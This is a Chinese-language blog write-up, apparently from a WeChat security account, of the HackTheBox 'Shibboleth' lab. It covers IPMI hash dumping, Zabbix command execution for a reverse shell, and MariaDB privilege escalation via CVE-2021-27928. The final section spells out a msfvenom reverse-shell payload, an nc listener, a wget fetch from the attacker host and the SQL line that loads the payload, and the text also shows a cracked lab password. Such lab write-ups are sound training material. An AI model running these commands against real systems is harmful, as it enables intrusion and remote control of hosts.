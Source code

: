 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/T80lR81T1if-I8ITr_0HMg)

![](https://mmbiz.qpic.cn/mmbiz_png/IBqeMoOWia84GacYwfYUEb8Ldv0H2azDz0YViaSFhpRGaMLCXAZ9iaq6wicFOyrLiafT4IBlxHTD8ylYic1HbfdZuib5A/640?wx_fmt=png)

**特别声明:**

点此亲启

**致各位**

· 本公众号发布的靶场、文章项目中涉及的任何脚本工具，仅用于测试和学习研究，禁止用于商业用途，不能保证其合法性，准确性，完整性和有效性，请根据情况自行判断；

· 本文章、项目内靶场所有资源文件，禁止任何公众号、自媒体进行任何形式的擅自转载、发布

· PTEHUB 对任何脚本及工具问题概不负责，包括不限于由任何脚本错误导致的任何损失或损害及任何法律责任；

· 间接使用靶场、文章中的任何工具及技术，包括但不限于建立 VPS 或在某些行为违反国家 / 地区法律或相关法规的情况下进行传播, PTEHUB 对于由此引起的任何隐私泄漏或其他法律问题后果概不负责；

· 如果任何单位或个人认为该项目或文章的脚本可能涉嫌侵犯其权利，则应及时通知并提供身份证明，所有权证明，我们将在收到认证文件后删除相关内容；

· 以任何方式查看或使用此项目的人或直接或间接使用项目的任何脚本的使用者都应仔细阅读此声明；

· PTEHUB 保留随时更改或补充此免责声明的权利；

· 一旦使用访问 PTEHUB 项目，则视为您已接受此免责声明。

您在本声明未发出之时，使用或者访问了 PTEHUB ，则视为已接受此声明，请仔细阅读。  

此致

  

  

  

![](https://mmbiz.qpic.cn/mmbiz_svg/6t0VDe9bl5c19UhCoAqSJsbGVFE2AGkehUSwIJ80rLG7sicu1ibhEU9qTmG3WlBXLhTia05DLPKcq5lCaqWqXX5LXAdtVAQocxw/640?wx_fmt=svg)

![](https://mmbiz.qpic.cn/mmbiz_png/IBqeMoOWia87diauw7JFeflsqdArF4ZcMrTZIBIWkICERBt50hUJn0NShfWNj6bmuxr75XdcOic0498gbteJ99gfg/640?wx_fmt=png)

元旦期间开启了内卷模式，有一句话叫做: 你要偷偷努力, 然后惊艳所有人。换在今日的流行意思就是————偷偷的自己内卷，然后把其他人卷 si😄！

今天给大家带来的是 HTB shibboleth 靶场的操作说明，在 HTB 的难度中属于 Medium

1

**探测靶机**

首先利用 Nmap 扫描开放端口及服务，发现了 80，623 这两个端口

![](https://mmbiz.qpic.cn/mmbiz_png/IBqeMoOWia84GacYwfYUEb8Ldv0H2azDzQXXHCichLyg6KF9UqdpocLaLfF2JGfvwLhsJ3LNgBHOS9G1qd4RMhGw/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/IBqeMoOWia84GacYwfYUEb8Ldv0H2azDzicX3S69nvUuMn8Kux4pFiaQ8BT1kb96nggIgAug6gS4icgbIiaPLoGuZhA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/IBqeMoOWia879QGicniaZ3sByZ75cDtOBr0mGsibicvImy7HB1NBibsWQEZAO5ziaW7zPWUScXaIjBeWlx7fyJcAWshng/640?wx_fmt=png)

将我们扫到的域名，加入 etc/hosts 内然后正常访问

  

![](https://mmbiz.qpic.cn/mmbiz_png/IBqeMoOWia879QGicniaZ3sByZ75cDtOBr048b2Yia47bbCz7yyzBJY0Kq5xiaDP1kAPgNHS0wCpmxuQuSQtZqdJbtA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/IBqeMoOWia879QGicniaZ3sByZ75cDtOBr06doD5G72jymKGgdbicxA4lRACUszt5sLkkXGngAwE7UunM0J97cib5jw/640?wx_fmt=png)

从页面上没有找到突破口，然后回头去看了下这个 udp 的 623 端口，Google 了一下发现有公开的 Exp，并且 Msf 里面也有。

参考链接：

https://book.hacktricks.xyz/pentesting/623-udp-ipmi

进行检测发现存在漏洞，然后利用配套的 Hashdump，将 Hashdump 出来以后进行爆破  

  

![](https://mmbiz.qpic.cn/mmbiz_png/IBqeMoOWia84GacYwfYUEb8Ldv0H2azDz3sXNs6YfCNwOAJRWM7wEcGppydc3Q68PNwhrVD8jCX16j5wTeiaU4TQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/IBqeMoOWia84GacYwfYUEb8Ldv0H2azDzB3q8Og2PJCef8Pib8lXyic92MLicb3greRlicvOza3EttYRxNACovHiaichg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/IBqeMoOWia84GacYwfYUEb8Ldv0H2azDzUOEv59ELBWmM67OruFK7EeMLhDojS0LYm3l5s7iaCiaIQQ1oK1vrQTBA/640?wx_fmt=png)

2

**Shell**

接下来使用得到的账号密码进行登陆

User：Administrator

Passwd：ilovepumkinpie1

![](https://mmbiz.qpic.cn/mmbiz_png/IBqeMoOWia879QGicniaZ3sByZ75cDtOBr0icHyqb79K0ibic0wOFciaIvIXib89bGG10X5RibNMOZXDyRoZ5Ved7wPhTcQ/640?wx_fmt=png)

  

在查了很多资料以后发现

Configuration->Hosts->shibboleth.htb->items 这里新建的时候可以进行命令执行

参考链接如下：

https://www.zabbix.com/documentation/current/en/manual/config/items/itemtypes/zabbix_agent

https://sbcode.net/zabbix/agent-execute-python/

![](https://mmbiz.qpic.cn/mmbiz_png/IBqeMoOWia879QGicniaZ3sByZ75cDtOBr0vPWNa2q4ZIYsTJV84EfeNI0tLjuHquwhMXMibK8dB8ZSK4LlDOWnicHw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/IBqeMoOWia879QGicniaZ3sByZ75cDtOBr0KchO1LAdPEvxJopuA95EJTebgRtKTuicRgMsrQbQIibXLMndSicAY5MyQ/640?wx_fmt=png)

快乐就是如此简单！

3

Reverse Shell：

这里直接在输入框里面反弹一个 shell 回来

![](https://mmbiz.qpic.cn/mmbiz_png/IBqeMoOWia879QGicniaZ3sByZ75cDtOBr06doPicnzDMb0rfaw6j2clkkXVc12CCOnjaNE0D0FE353JU9ub9NChrg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/IBqeMoOWia879QGicniaZ3sByZ75cDtOBr0GqyRf0UibCerN9auptiaSKxQ71DAIbBFIxGUyyZj27T0k4bg3fZVuiclg/640?wx_fmt=png)

  

对得起掉在桌上的头发了！  

4

**信息搜集：**

查看了下有哪些用户，尝试密码复用，结果居然成了～

![](https://mmbiz.qpic.cn/mmbiz_png/IBqeMoOWia879QGicniaZ3sByZ75cDtOBr0Sx5ELUiamE7bq0XyMawLicfZf4E88unfkds6ibTnYmadWprBPB6hJpUng/640?wx_fmt=png)

还是很友好的嘛，换个交互更好的终端

![](https://mmbiz.qpic.cn/mmbiz_png/IBqeMoOWia879QGicniaZ3sByZ75cDtOBr0kdY0Ziap557Vy1uXCQYOAhKr1solib8OavJ6x1PwbN7Mv4B8PBMiazKLQ/640?wx_fmt=png)

找到了 user.txt ，获取到了普通权限的 flag，接下来提权去找 root 的 flag

![](https://mmbiz.qpic.cn/mmbiz_png/IBqeMoOWia879QGicniaZ3sByZ75cDtOBr0TgI5lec8064yURqL5qdQjYrbd9ppcVbJkK2LiaderXvBR4HFicBAhO9Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/IBqeMoOWia879QGicniaZ3sByZ75cDtOBr0d4RaicYYo8PUJLLfNrA5pDa6lzcWXmPxLce9ItN2nAHGOIkHydhR83A/640?wx_fmt=png)

5

**提权：**

在翻垃圾的时候发现了 Zabbix 的数据库密码

![](https://mmbiz.qpic.cn/mmbiz_png/IBqeMoOWia879QGicniaZ3sByZ75cDtOBr0ojiayHqrZ7v21f37fNP0IoxoHJ2CIURH0K6eyWyFadxic4Tjiak8TmicEQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/IBqeMoOWia879QGicniaZ3sByZ75cDtOBr0VU4Bj0Rr8wRTwlUpY86bacex2EnwgrJWgGpwnc1daickgD5p0njP4Rg/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_png/IBqeMoOWia879QGicniaZ3sByZ75cDtOBr0FQlpiabcqUyMnO3grdP1ZEBfLSNjibrxics51cj0icEXgQ2dCRPaYTlIiag/640?wx_fmt=png)

  

  

这个 MairaDB 的版本是有漏洞的，可以直接提权

CVE-2021-27928

参考链接：  

https://github.com/Al1ex/CVE-2021-27928

![](https://mmbiz.qpic.cn/mmbiz_png/IBqeMoOWia879QGicniaZ3sByZ75cDtOBr0cBEXia8b1TgXceLhbAuzGYVy2geWQNkauJhyW9DLVueyVWib7YHS7lrQ/640?wx_fmt=png)

  

1. 使用 Msf 生成一个. so 的文件

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.28 LPORT=9999 -f elf-so -o PTEHub.so
```

2. 使用 NC 监听一个端口

```
nc -nvlp 9999
```

3. 将文件上传到靶机的 / tmp 目录下

```
python3 -m http.server 8888
```

切换至 /tmp

```
wget http://10.10.14.28:8888/PTEHub.so
```

4. 登录 mysql 然后执行文件

```
SET GLOBAL wsrep_provider="/tmp/PTEHub.so";
```

![](https://mmbiz.qpic.cn/mmbiz_png/IBqeMoOWia879QGicniaZ3sByZ75cDtOBr0rShBFoFXSFWDwTKRVmM5eaIkhic6uS33k6DeXLeG6f4pG4UshxfLfjg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/IBqeMoOWia879QGicniaZ3sByZ75cDtOBr083xtiaBzXLnAuMS7eFpLJeTPhRk3tNBheEnRDJJEibJoTWySibdXkBfSw/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_png/IBqeMoOWia879QGicniaZ3sByZ75cDtOBr06IWN1DDFqvCpMtrbGoccIuy4YdmWD8CXSJibmFWicR9IxNvRjZpzx9Kg/640?wx_fmt=png)

6

**总结**

思路：

该靶场官方定位为中等级别，不是很难，主要还是对端口服务、应用系统以及中间件的漏洞进行利用；通过端口漏洞拿到 hash 再进行爆破 hash，然后利用 zabbix 的漏洞进行反弹 shell，最后再通过数据库进行提权。

工具：

Nmap: 可以检测目标机是否在线、端口开放情况、侦测运行的服务类型及版本信息、侦测操作系统与设备类型等信息；

MSF: 一个漏洞框架。它的全称叫做 The Metasploit Framework，简称 MSF；

HashCat: 号称是史上最快的密码破解工具；

FFUF: 模糊测试工具；

Netcat: 实用的网络测试工具，简称 Nc。

![](https://mmbiz.qpic.cn/mmbiz_png/IBqeMoOWia87diauw7JFeflsqdArF4ZcMrTZIBIWkICERBt50hUJn0NShfWNj6bmuxr75XdcOic0498gbteJ99gfg/640?wx_fmt=png)

* * *

**本期制作**

作者：Shawn_bot

编辑：0x3135、邹一

审核：墨鱼

       点击下方名片关注我们～

公众号